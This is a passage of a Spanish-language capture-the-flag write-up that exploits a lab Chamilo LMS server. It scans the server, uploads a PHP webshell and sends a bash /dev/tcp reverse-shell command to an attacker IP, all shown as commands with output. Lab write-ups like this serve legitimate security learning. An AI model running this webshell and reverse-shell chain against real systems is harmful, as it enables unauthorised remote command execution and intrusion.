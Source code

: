 El primer paso, será lograr escanear la página web para verificar si es vulnerable. Esto lo podremos comprobar a través del módulo `scan` que nos ofrece el exploit.

```bash
❯ python3 main.py -u http://lms.permx.htb -a scan

[+] Target is likely vulnerable. Go ahead. [+]
```

Una vez localizado que el target es vulnerable, el siguiente paso será lograr subir una `webshell` al `Chamilo LMS`. Al ejecutar el exploit, se nos proporciona el acceso a la `webshell`.

```bash
❯ python3 main.py -u http://lms.permx.htb -a webshell

Enter the name of the webshell file that will be placed on the target server (default: webshell.php): gzzcoo.php

[+] Upload successfull [+]

Webshell URL: http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/gzzcoo.php?cmd=<command>
```

Realizamos la comprobación para verificar si podemos llegar a ejecutar comandos. Probamos de ejecutar el comando `whoami` y obtuvimos el resultado esperado.

```bash
❯ curl -s 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/gzzcoo.php?cmd=whoami'
www-data
```

El siguiente paso será lograr tener acceso al equipo. Por lo tanto, nos pondremos en escucha con la herramienta de `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos en la `webshell` que disponemos el siguiente comando para lograr obtener una Reverse Shell.

```bash
❯ curl -s 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/gzzcoo.php?cmd=/bin/bash%20-c%20"bash%20-i%20>%26%20/dev/tcp/10.10.16.7/443%200>%261"'
```

Volviendo a nuestra terminal, verificamos que hemos logrado obtener acceso al sistema como usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.23] 39420
bash: cannot set terminal process group (1174): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```
